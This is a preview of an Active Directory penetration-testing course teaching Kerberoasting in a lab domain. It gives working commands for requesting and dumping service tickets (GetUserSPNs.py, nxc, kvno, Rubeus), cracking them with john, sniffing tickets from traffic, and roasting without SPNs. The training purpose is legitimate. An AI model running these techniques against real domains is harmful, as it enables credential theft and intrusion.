









# W200 Preview

This repository contains a small preview of the W200 course, the full syllabus can be found: [here](https://shop.async.sg/pages/w200-syllabus-active-directory-penetration-testing).

- [W200 Preview](#w200-preview)
  - [Kerberoasting](#kerberoasting)
    - [Theory](#theory)
    - [Abuse](#abuse)
    - [Manual Roasting](#manual-roasting)
  - [Having Fun with Kerberos](#having-fun-with-kerberos)
    - [Roasting without SPNs](#roasting-without-spns)
    - [Service Principal Name, who?](#service-principal-name-who)
    - [Detection Opportunities](#detection-opportunities)
      - [NetExec](#netexec)
      - [Impacket](#impacket)
      - [Rubeus](#rubeus)


## Kerberoasting

In the `TGS_REP`, the `KDC` sends back a service ticket (ST) that's encrypted with the service account's password hash. This means that if an attacker can request a service ticket for a service account, they can then crack the resultant service ticket offline.

Earlier, we found that the `svc_sql` has `MSSQL` SPNs set:

```
(LDAP)-[dc02.asia.earth.local]-[ASIA\Nathan_CARTER]
PV > Get-DomainUser -SPN -Select cn,servicePrincipalName
cn                       : svc_sql
servicePrincipalName     : MSSQLSvc/SQL01.asia.earth.local:1433
                           MSSQLSvc/SQL01.asia.earth.local
```

### Theory

After authenticating as `async_testuser-001`, we can request a service ticket for the `MSSQLSvc/SQL01.asia.earth.local` service using `kvno`:

```
kvno MSSQLSvc/SQL01.asia.earth.local     
MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL: kvno = 2
```

We'll find that the `TGS-REQ` follows the structure as defined in [RFC 4120, Section 5.4.1](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.1) with an `sname` field containing an `sname-string` with [2 KerberosString structures](https://datatracker.ietf.org/doc/html/rfc4120#section-5.2.2):
1. `PrincipalName`: `MSSqlSvc`
2. `Realm`: `SQL01.asia.earth.local`



And, the `KDC` responds with a `TGS-REP` that contains a service ticket (ST) for the service that we requested in the `sname` field of the `TGS-REQ`.



This ticket has an `enc-part` part [(referred to as `EncTicketPart`)](https://datatracker.ietf.org/doc/html/rfc4120#section-5.3) that contains authentication information about the client:

```
EncTicketPart   ::= [APPLICATION 3] SEQUENCE {
        flags                   [0] TicketFlags,
        key                     [1] EncryptionKey,
        crealm                  [2] Realm,
        cname                   [3] PrincipalName,
        transited               [4] TransitedEncoding,
        authtime                [5] KerberosTime,
        starttime               [6] KerberosTime OPTIONAL,
        endtime                 [7] KerberosTime,
        renew-till              [8] KerberosTime OPTIONAL,
        caddr                   [9] HostAddresses OPTIONAL,
        authorization-data      [10] AuthorizationData OPTIONAL
}
```

This information is encrypted with the service account's password hash, which prevents the client from reading and arbitrarily modifying the ticket.

However, since this portion of the ticket is encrypted with the service account's password hash, an attacker can request a service ticket for the service account, and then crack the resultant service ticket offline.

### Abuse

We can obtain a service ticket for this service account using the `GetUserSPNs` command:

```
> GetUserSPNs.py 'asia.earth.local'/'async_testuser-001':'P@ssw0rd' -request-user 'svc_sql' -outputfile svc_sql.tgs

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.tgs
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 10:57) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Alternatively, we can use `nxc`:

```
nxc ldap dc02.asia.earth.local -u 'async_testuser-001' -p 'P@ssw0rd' --kerberoast kerberoast.out                     
LDAP        10.12.10.20      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:asia.earth.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.12.10.20      389    DC02             [+] asia.earth.local\async_testuser-001:P@ssw0rd 
LDAP        10.12.10.20      389    DC02             [*] Skipping disabled account: krbtgt
LDAP        10.12.10.20      389    DC02             [*] Total of records returned 1
LDAP        10.12.10.20      389    DC02             [*] sAMAccountName: svc_sql, memberOf: [], pwdLastSet: 2025-06-18 20:17:19.785428, lastLogon: 2025-06-29 09:53:37.681317
LDAP        10.12.10.20      389    DC02             
[...snip...]

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.out                
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 10:58) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Manual Roasting

If you're ever in a situation where you'd need to "manually" kerberoast, for example if there are tool restrictions and you aren't able to proxy traffic - or if you need to consider operational security but don't have the time to review/understand the code of a tool.

You can simply use `klist` with `kvno` to legitimately request a service ticket.

```
l-a-andersen@staging01:~$ kinit async_testuser-001@ASIA.EARTH.LOCAL
Password for async_testuser-001@ASIA.EARTH.LOCAL: 

l-a-andersen@staging01:~$ kvno MSSQLSvc/SQL01.asia.earth.local
MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL: kvno = 2

l-a-andersen@staging01:~$ klist
Ticket cache: FILE:/tmp/krb5cc_1753601885_XXXX24jcCs
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 23:05:47  06/30/2025 09:05:47  krbtgt/ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
        renew until 06/30/2025 23:05:45
06/29/2025 23:05:54  06/30/2025 09:05:47  MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL
        renew until 06/30/2025 23:05:45
```

Next, we can extract this `Kerberos Cache` from `/tmp/krb5cc_1753601885_XXXX24jcCs` and bring it offline:

```
> wget staging01.asia.earth.local:8081/krb5cc_1753601885_XXXX24jcCs
[...snip...]
2025-06-29 11:07:24 (57.9 MB/s) - ‘krb5cc_1753601885_XXXX24jcCs’ saved [3188/3188]

> cp krb5cc_1753601885_XXXX24jcCs /tmp/krb5cc_$(id -u)
klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 11:05:47  06/29/2025 21:05:47  krbtgt/ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
        renew until 06/30/2025 11:05:45
06/29/2025 11:05:54  06/29/2025 21:05:47  MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL
        renew until 06/30/2025 11:05:45
```

If we run `describeTicket.py` on this cache, we can see that there are 2 tickets in this cache:

```
describeTicket.py /tmp/krb5cc_1000            
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 2
[*] Parsing credential[0]:
[*] Ticket Session Key            : 0f37486e9d3e447491d10ef049f1400e8d67fd41cbb3bbbde32321ab0e11cfcc
[*] User Name                     : async_testuser-001
[*] User Realm                    : ASIA.EARTH.LOCAL
[*] Service Name                  : krbtgt/ASIA.EARTH.LOCAL
[*] Service Realm                 : ASIA.EARTH.LOCAL
[*] Start Time                    : 29/06/2025 11:05:47 AM
[*] End Time                      : 29/06/2025 21:05:47 PM
[*] RenewTill                     : 30/06/2025 11:05:45 AM
[*] Flags                         : (0xe10000) renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : DzdIbp0+RHSR0Q7wSfFADo1n/UHLs7u94yMhqw4Rz8w=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/ASIA.EARTH.LOCAL
[*]   Service Realm               : ASIA.EARTH.LOCAL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

However, the encrypted `ST` is not printed out. We can fix this by changing the following lines in `describeTicket.py`:

```python
# https://github.com/fortra/impacket/blob/master/examples/describeTicket.py#L312

except KeyError:
    if len(ekeys) > 0:
        logging.error('Could not find the correct encryption key! Ticket is encrypted with %s (etype %d), but only keytype(s) %s were calculated/supplied',
                        constants.EncryptionTypes(etype).name,
                        etype,
                        ', '.join([str(enctype) for enctype in ekeys.keys()]))
    else:
        logging.error('Could not find the correct encryption key! Ticket is encrypted with %s (etype %d), but no keys/creds were supplied',
                        constants.EncryptionTypes(etype).name,
                        etype)
    # return
    continue # <-- change this to `continue` instead of `return`
```

If we run `describeTicket.py` again, we can see the encrypted service ticket:

```
describeTicket.py /tmp/krb5cc_1000
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[...snip...]
[*] RenewTill                     : 30/06/2025 11:05:45 AM
[*] Flags                         : (0xa10000) renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : LgL2ob4pA8oJ3aQePeVUow==
[*] Kerberoast hash               : $krb5tgs$23$*USER$ASIA.EARTH.LOCAL$MSSQLSvc/SQL01.asia.earth.local*$8200b8c15cc96a7fp[...snip....]434bbb9a446d5abc4b6713dd016a1fc0bc562c4920d954241fbc4d4665a89b420148937b0a208c762d126179884709b4b
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : MSSQLSvc/SQL01.asia.earth.local
[*]   Service Realm               : ASIA.EARTH.LOCAL
[*]   Encryption type             : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
```

This hash is in the same format as the one generated by `GetUserSPNs.py`, so we can simply crack it like before:

```
echo '$krb5tgs$23$*USER$ASIA.EARTH.LOCAL$MSSQLSvc/SQL01.asia.earth.local*$8200b8c15cc96a7fa[...snip...]9b4b' > svc_sql.hash

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 11:14) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Similarly, if you're afraid of honeypots, you can simply listen on a network for legitimate service ticket request and cracking the resultant service ticket offline.

```
root@staging01:~# tcpdump -i any -w out.pcap
tcpdump: data link type LINUX_SLL2
tcpdump: listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
^C309 packets captured
310 packets received by filter
0 packets dropped by kernel
```

Bring this offline, and open it with [NetworkMiner](https://www.netresec.com/?page=NetworkMiner):



Right Click -> Copy Password, then crack these as usual:

```
> echo '$krb5tgs$23$af[...snip...]3f988e32285001c269be3ee0cfd693c124a835e76f2d4ed35e5177986ce5fed49a002170b1742a9edd04f' > svc_sql.hash

> john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 11:21) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

A blog post by [RastaMouse](https://rastamouse.me/kerberoasting-without-tgs-reqs/) also discussed the above topic but from a different situation, where you've managed to land in a session where a service ticket is already present.

```
PS C:\Users\async_testuser-001> klist get MSSQLSvc/SQL01.asia.earth.local

Current LogonId is 0:0x49203
A ticket to MSSQLSvc/SQL01.asia.earth.local has been retrieved successfully.

Cached Tickets: (2)
#0>     Client: async_testuser-001 @ ASIA.EARTH.LOCAL
        Server: krbtgt/ASIA.EARTH.LOCAL @ ASIA.EARTH.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
        Start Time: 6/29/2025 23:24:47 (local)
        End Time:   6/30/2025 9:24:47 (local)
        Renew Time: 7/6/2025 23:24:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY 
        Kdc Called: dc02.asia.earth.local

#1>     Client: async_testuser-001 @ ASIA.EARTH.LOCAL
        Server: MSSQLSvc/SQL01.asia.earth.local @ ASIA.EARTH.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
        Start Time: 6/29/2025 23:24:47 (local)
        End Time:   6/30/2025 9:24:47 (local)
        Renew Time: 7/6/2025 23:24:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0 
        Kdc Called: dc02.asia.earth.local
```

We can then use `Rubeus` to dump these tickets, we also find out that our `luid` is `0x49203` from the above `klist` output.

```
PS C:\Users\async_testuser-001> .\Rubeus.exe dump /luid:0x49203 /nowrap
[...snip...]
  ServiceName              :  MSSQLSvc/SQL01.asia.earth.local
    ServiceRealm             :  ASIA.EARTH.LOCAL
    UserName                 :  async_testuser-001 (NT_PRINCIPAL)
    UserRealm                :  ASIA.EARTH.LOCAL
    StartTime                :  6/29/2025 11:24:47 PM
    EndTime                  :  6/30/2025 9:24:47 AM
    RenewTill                :  7/6/2025 11:24:04 PM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType                  :  rc4_hmac
    Base64(key)              :  HGWwqFWyrPewuxjQR+F0aA==
    Base64EncodedTicket   :
      doIGZDCCBmCgAwIBBaEDAgEWooI[...snip...]zaWEuZWFydGgubG9jYWw=
[..snip..]
```

From here, you can do the usual trick of converting it to a `Kerberos Cache` offline - then cracking it after obtaining the hash using `describeTicket.py`. Or, you can use `Rubeus.exe describe`.

```
PS C:\Users\async_testuser-001> .\Rubeus.exe describe /ticket:doIGZDCCBmCgAw[...snip...]9jYWw= /nowrap
[*] Action: Describe Ticket


  ServiceName              :  MSSQLSvc/SQL01.asia.earth.local
  ServiceRealm             :  ASIA.EARTH.LOCAL
  UserName                 :  async_testuser-001 (NT_PRINCIPAL)
  UserRealm                :  ASIA.EARTH.LOCAL
  StartTime                :  6/29/2025 11:24:47 PM
  EndTime                  :  6/30/2025 9:24:47 AM
  RenewTill                :  7/6/2025 11:24:04 PM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  HGWwqFWyrPewuxjQR+F0aA==
  Kerberoast Hash          :  $krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.asia.earth.local*$5A176A305C0A31686A[...snip...]F79DE0463FB78CD1355290A4040948CAF7B7846F222C3E13B88422493AC1D0FC6CDE06E5973D0DE0332DC0E961347A71C62C1AFF1508124BF1897C9ED7AD3D8B9F24A1B3E48D3BF063B4083C322E02D734336ED10E37FFFE4AB2BC4699A28755C59DED09D7BE
```

Bring this hash offline, and crack it as usual:

```
echo '$krb5tgs$23$*USER$DOMAIN$MSSQLSvc/SQL01.asia.earth.local*$5A176A305C0A31686AD8F638ED44A25B$CF5B08B4381821A0534DE084AD5FEEB9384E6E53C40BF039037A52103A688EE28C3BDA8628EC0DD43C2D3AFAA72E[...snip...]290A4040948CAF7B7846F222C3E13B88422493AC1D0FC6CDE06E5973D0DE0332DC0E961347A71C62C1AFF1508124BF1897C9ED7AD3D8B9F24A1B3E48D3BF063B4083C322E02D734336ED10E37FFFE4AB2BC4699A28755C59DED09D7BE' > svc_sql.hash

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 11:28) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Having Fun with Kerberos

This section goes over some prerequisite knowledge that is required to understand the next section, from a scenario where you may not know the SPNs of a service account (but you know that they _do_ have SPNs).

### Roasting without SPNs

In 2020, [Arseniy Sharoglazov](https://swarm.ptsecurity.com/kerberoasting-without-spns/) found that it is possible to request for a service ticket (ST) without knowing the exact SPN of the service account.

When a `Service Ticket (ST)` is requested using `kinit` and `kvno`, the `TGS-REQ`'s `req-body` structure includes an `sname` field. This field, as defined in [RFC 4120, Section 5.4.1](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.1), has a `name-type` and a `sname-string` containing two `KerberosString` objects.

```
KDC-REQ         ::= SEQUENCE {
        pvno            [1] INTEGER (5) ,
        msg-type        [2] INTEGER (10 -- AS -- | 12 -- TGS --),
        padata          [3] SEQUENCE OF PA-DATA OPTIONAL
        req-body        [4] KDC-REQ-BODY
}

KDC-REQ-BODY    ::= SEQUENCE {
        kdc-options             [0] KDCOptions,
        cname                   [1] PrincipalName OPTIONAL
        realm                   [2] Realm
        sname                   [3] PrincipalName OPTIONAL,
        from                    [4] KerberosTime OPTIONAL,
        till                    [5] KerberosTime,
        rtime                   [6] KerberosTime OPTIONAL,
        nonce                   [7] UInt32,
        etype                   [8] SEQUENCE OF Int32
        addresses               [9] HostAddresses OPTIONAL,
        enc-authorization-data  [10] EncryptedData OPTIONAL
        additional-tickets      [11] SEQUENCE OF Ticket OPTIONAL
}

PrincipalName   ::= SEQUENCE {
        name-type       [0] Int32,
        name-string     [1] SEQUENCE OF KerberosString
}
```



You'll find that the `name-type` is `1` (which is `NT_PRINCIPAL`) as per [6.2](https://datatracker.ietf.org/doc/html/rfc4120#section-6.2):

```
NT-PRINCIPAL      1    Just the name of the principal as in DCE, or for users
```

And, in `name-string` we find two `KerberosString` objects, as defined in [RFC 4120, Section 5.2.2](https://datatracker.ietf.org/doc/html/rfc4120#section-5.2.2); these should be the `principalName` and a `Realm`:

```
   name-string
      This field encodes a sequence of components that form a name, each
      component encoded as a KerberosString.  Taken together, a
      PrincipalName and a Realm form a principal identifier.  Most
      PrincipalNames will have only a few components (typically one or
      two).
```

In this case, we have the `principalName` as `MSSQLSvc` and the `Realm` as `SQL01.asia.earth.local`. We'll also notice that the `sname` field and the `cname` fields are both `PrincipalName` structures, which are defined as follows in [RFC 4120, Section 5.4.1](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.1):

```
KDC-REQ-BODY    ::= SEQUENCE {
[...snip...]
        cname                   [1] PrincipalName OPTIONAL
        sname                   [3] PrincipalName OPTIONAL,
[...snip...]
}
```

We'll also find that the `cname` field is also in the `KDC-REP` structure, as per [RFC 4120, Section 5.4.2](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.2) used in a `TGS-REP` (and `AS-REP`):

```
KDC-REP         ::= SEQUENCE {
        pvno            [0] INTEGER (5),
        msg-type        [1] INTEGER (11 -- AS -- | 13 -- TGS --),
        padata          [2] SEQUENCE OF PA-DATA OPTIONAL
                                -- NOTE: not empty --,
        crealm          [3] Realm,
        cname           [4] PrincipalName,
        ticket          [5] Ticket,
        enc-part        [6] EncryptedData
                                -- EncASRepPart or EncTGSRepPart,
                                -- as appropriate
}
```

In the response to the previous `TGS-REQ`, we'll find that the `KDC` set the `cname-string` to a single `KerberosString` object with the value of the client principal name, which is `async_testuser-001` in this case.



Since the `sname` and `cname` fields appear to be identical, we can attempt to send a `TGS-REQ` with the `sname` field set to a single `KerberosString` object with the value of the service account name.

The [following script](https://gist.github.com/gatariee/dd9063dd2dbe42637edd589c647661ae) can be used to do this, the following portion is the relevant part of the script that does this:

```python
sname_string = "svc_sql"
principalName = Principal(
    sname_string, type=constants.PrincipalNameType.NT_PRINCIPAL.value
)

tgs, cipher, oldSessionKey, sessionKey = getKerberosTGS(
    principalName, DOMAIN, None, TGT["KDC_REP"], TGT["cipher"], TGT["sessionKey"]
)
```

We'll see that our `TGS-REQ` is sent with the `sname-string` field set to a single `KerberosString` object with the value of `svc_sql`.



And, the `KDC` actually replies with a valid service ticket for the `svc_sql` service account! And, the resultant `sname-string` field mimicks exactly what we sent in the `TGS-REQ`.



According to [RFC 4120, Section 5.3](https://datatracker.ietf.org/doc/html/rfc4120#section-5.3), we would expect the service name to be in the `sname` field of the `KDC-REP`, which is not the case here.

### Service Principal Name, who?

Depending on the `name-type` of the `sname` field, the `KDC` will expect different values in the `sname-string` field to identify the service. This is clearly outlined in [RFC 4120, Section 6.2](https://datatracker.ietf.org/doc/html/rfc4120#section-6.2):

```
NT-UNKNOWN        0    Name type not known
NT-PRINCIPAL      1    Just the name of the principal as in DCE,
                        or for users
NT-SRV-INST       2    Service and other unique instance (krbtgt)
NT-SRV-HST        3    Service with host name as instance
                        (telnet, rcommands)
NT-SRV-XHST       4    Service with host as remaining components
NT-UID            5    Unique ID
NT-X500-PRINCIPAL 6    Encoded X.509 Distinguished name [RFC2253]
NT-SMTP-NAME      7    Name in form of SMTP email name
                        (e.g., user@example.com)
NT-ENTERPRISE    10    Enterprise name - may be mapped to principal
                        name
```

In most cases, the `NT-SRV-HST` or `NT-PRINCIPAL` name types are used for service accounts; based on my testing, `kvno` will always use the `NT-PRINCIPAL` name type when requesting a service ticket whereas `ssh` prefers the `NT-SRV-HST` name type.

The valid `sname-string` for the above name types can be found at [MS-KILE 3.3.5.1.1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/a7ad31b0-37a4-4344-b9a7-01d4d086097e). Importantly, these name types allow a single `KerberosString`.

```
b. If STATUS_NOT_FOUND or STATUS_NO_SUCH_USER is returned ([MS-ERREF] section 2.3.1) and there is only one KerberosString element in name-string, then:
    i. Call GetUserLogonInfoByAttribute where:
           SearchKey is set to KerberosString[0].
           Attribute is set to sAMAccountName.
```

If only a single `KerberosString` is present in the `sname-string`, the `KDC` will attempt to find a user with that name in the `sAMAccountName` attribute instead of properly looking up the `servicePrincipalName (SPN)`!

We can use the following script to save the resultant service ticket to a file: [hmmST.py](https://gist.github.com/gatariee/7793d10ef25a4fe954d706ef0ecbd80c), then move it to `/tmp/krb5cc_$(id -u)`. We'll find that `klist` also has no idea what our `SPN` is.

```
> cp test@svc_sql_ASIA.EARTH.LOCAL.ccache /tmp/krb5cc_$(id -u)
> klist                               
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 14:32:17  06/30/2025 00:32:17  svc_sql@ASIA.EARTH.LOCAL
        renew until 06/30/2025 14:32:18
```

In contrast, this is what a valid service ticket looks like:

```
> klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 14:33:56  06/30/2025 00:33:56  MSSQLSvc/SQL01.asia.earth.local@ASIA.EARTH.LOCAL

        renew until 06/30/2025 14:33:57
```

